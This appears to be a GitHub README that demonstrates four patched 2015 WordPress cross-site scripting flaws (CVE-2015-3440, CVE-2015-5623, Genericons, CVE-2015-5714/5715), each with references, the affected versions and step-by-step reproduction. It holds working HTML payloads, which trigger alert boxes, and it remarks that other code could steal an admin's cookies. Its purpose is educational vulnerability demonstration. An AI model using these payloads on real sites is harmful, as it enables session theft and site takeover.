


# Wordpress Exploit #1 
<b>Type:</b> Unauthenticated Stored Cross-Site Scripting CVE-2015-3440

<b>Wordpress exploit demo</b>


[!] Title: WordPress <= 4.2 - Unauthenticated Stored Cross-Site Scripting (XSS) <br /> 
    Reference: https://wpvulndb.com/vulnerabilities/7945 <br /> 
    Reference: http://klikki.fi/adv/wordpress2.html <br /> 
    Reference: http://packetstormsecurity.com/files/131644/ <br /> 
    Reference: https://www.exploit-db.com/exploits/36844/ <br /> 

<b>Tested in:</b> 4.2

<b>Fixed in:</b> 4.2.1 

<b>Description: </b>
Hacker can inject JavaScript in WordPress comments. The script is executed when comment is viewed. The comment has to be longer than 64 kb, because this is the maximum size of the text field in MySQL

<b>Step by step:</b>
1. I left a harmless comment under the post to bypass the initial moderation. For the second comment of the same post you won't have to go through the moderation again.
2. I left a long comment to get an alert "Hello World" :
```html
<a title='x onmouseover=alert(unescape(/hello%20world/.source)) style=position:absolute;left:0;top:0;width:5000px;height:5000px  AAAAAAAAAAAA...[64 kb]..AAA'></a>
```
3. When the admin will go to the page where the post is located the injected javascript will be executed and we can see the alert box "Hello world". The same way using different code we can gain access to cookies and to everything that logged in admin can do.

<b> Affected Source Code Link:</b> https://core.trac.wordpress.org/changeset/32299


# Wordpress exploit #2
<b>Type:</b> Authenticated Stored Cross-Site Scripting Reference CVE-2015-5623

<b>Wordpress exploit demo</b>


[!] Title: WordPress <= 4.2.2 - Authenticated Stored Cross-Site Scripting (XSS) <br /> 
    Reference: https://wpvulndb.com/vulnerabilities/8111 <br /> 
    Reference: https://wordpress.org/news/2015/07/wordpress-4-2-3/ <br /> 
    Reference: https://twitter.com/klikkioy/status/624264122570526720 <br /> 
    Reference: https://klikki.fi/adv/wordpress3.html <br /> 
    Reference: https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2015-5622 <br /> 
    Reference: https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2015-5623 <br /> 

<b>Tested in:</b> 4.2

<b>Fixed in:</b> 4.2.3

<b>Description:</b>
XSS vulnarability allows a user with posting capabilities to compomise the web site

<b>Step by step:</b>
1. Press "Create a Post" button
2. Switch from visual editor to text editor by choosing a "Text" tab on the righ upper corner.
2. Enter example code that triggers alert message:
```html
<a href="[caption code=">]</a><a title=" onmouseover=alert('test')  ">link</a>
```
3. WordPress shortcode processing manipulates this into the following form
```html
<a href="</a><a title=" onmouseover=alert('test')  ">link</a>
```
4. The code is executed when the user move his cursor over the link 

<b>Affected Source Code Link:</b> https://core.trac.wordpress.org/changeset/33359

# Wordpress exploit #3
<b>Type:</b> Unauthenticated Genericons Cross-Site Scripting

<b>Wordpress exploit demo</b>



[!] Title: WordPress 4.1-4.2.1 - Unauthenticated Genericons Cross-Site Scripting (XSS) <br /> 
    Reference: https://wpvulndb.com/vulnerabilities/7979 <br /> 
    Reference: https://codex.wordpress.org/Version_4.2.2 <br /> 

<b>Tested in:</b> 4.2

<b>Fixed in:</b> 4.2.2

<b>Description:</b> Genericons packages included in the Twenty Fifteen theme had a vulnurable example.htnl file which provided oportunities for XSS attack

<b>Step by step:</b>
1. Craft a web link by adding the code to existing example.html file in the Twentyfifteen theme:

```html
http://wpdistillery.vm/wp-content/themes/twentyfifteen/genericons/example.html#
```
2. When logged in, copy the link to the browser and press Enter

# Wordpress exploit #4
<b>Type:</b> Authenticated Shortcode Tags Cross-Site Scripting with Sticky Permission Issue CVE-2015-5714 & CVE-2015-5715

<b>Wordpress exploit demo</b>



[!] Title: WordPress <= 4.3 - Authenticated Shortcode Tags Cross-Site Scripting (XSS) <br /> 
    Reference: https://wpvulndb.com/vulnerabilities/8186 <br /> 
    Reference: https://wordpress.org/news/2015/09/wordpress-4-3-1/ <br /> 
    Reference: http://blog.checkpoint.com/2015/09/15/finding-vulnerabilities-in-core-wordpress-a-bug-hunters-trilogy-part-iii-ultimatum/ <br /> 
    Reference: http://blog.knownsec.com/2015/09/wordpress-vulnerability-analysis-cve-2015-5714-cve-2015-5715/ <br /> 
    Reference: https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2015-5714 <br /> 

<b>Tested in:</b> 4.2

<b>Fixed in:</b> 4.2.5

<b>Description:</b>
Allows to inject web script or HTML by using unclosed HTML elements during processing of Shortcode tags.

<b>Step by step:</b>
1. Press "Create a Post" button
2. Using unclosed HTML elements craft and enter example code that triggers alert message:
```html
XSS exploit [caption width='1' caption='<a href="' ">]</a><a href="http://onMouseOver='alert(123)' style='display:block;position:absolute;top:0px;left:0px;margin-left:-1000px;margin-top:-1000px;width:99999px;height:99999px;'"></a>
```
3. Change Visability to 'Private' by clicking 'Edit' in the right side menu bar and choosing 'Private' option
4. Click 'View Post'. The code is executed when the user move his cursor over the link 

<b>Affected Source Code Link:</b> https://github.com/WordPress/WordPress/commit/f72b21af23da6b6d54208e5c1d65ececdaa109c8


